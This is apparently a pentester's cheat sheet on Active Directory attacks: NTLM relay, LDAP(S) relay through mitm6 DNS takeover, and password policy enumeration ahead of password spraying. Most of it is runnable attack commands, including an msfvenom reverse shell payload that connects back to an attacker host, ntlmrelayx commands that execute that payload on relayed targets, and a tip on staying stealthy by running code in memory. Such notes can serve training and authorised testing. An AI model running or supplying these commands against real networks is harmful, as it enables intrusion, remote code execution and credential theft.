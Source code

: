 ```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f exe -o shell.exe
```

```shell
ntlmrelayx.py -tf SMB_IPs.txt -smb2support -e ./shell.exe
```

> [!WARNING] Stealth
> Although this technique is fairly easy, it is still better to get a shell using the **-c** switch + the Nishang script since that downloads / executes directly into memory. Since the **-e** switch downloads the executable to disk, it is less stealthy than using Nishang.

# LDAP(S) Relay Attack

LDAP(S) works by binding an LDAP user to an LDAP server. The client sends an operation request that asks for a particular set of information, such as user login credentials or other organizational data. The LDAP server then processes the query based on its internal language, communicates with directory services if needed, and provides a response.

LDAP Relay attacks occur when an NTLM authentication request is performed and an attacker captures the credentials and relays them to a Domain Controller by leveraging the LDAP protocol. By default LDAP signing and channel binding is not enabled, which allows us as the attacker to intercept the LDAP request and grab all the information it was sending over.

## LDAP(S)-Relay Attack via DNS Takeover Using mitm6 + ntlmrelayx.py

```shell
mitm6 -i eth0 -d juggernaut.local
```

```shell
ntlmrelayx.py -6 -t ldaps://172.16.1.5 -smb2support -wh fakewpad.juggernaut.local -l gimmedaloot
```

# Password Spraying

## Password Policies

Enumerating the Password Policy - from Linux - Credentialed

```shell
nxc smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

Enumerating the Password Policy - from Linux - SMB NULL Sessions

```shell
rpcclient -U "" -N 172.16.5.5
```

```shell
enum4linux-ng -P 172.16.5.5 -oA ilfreight
```
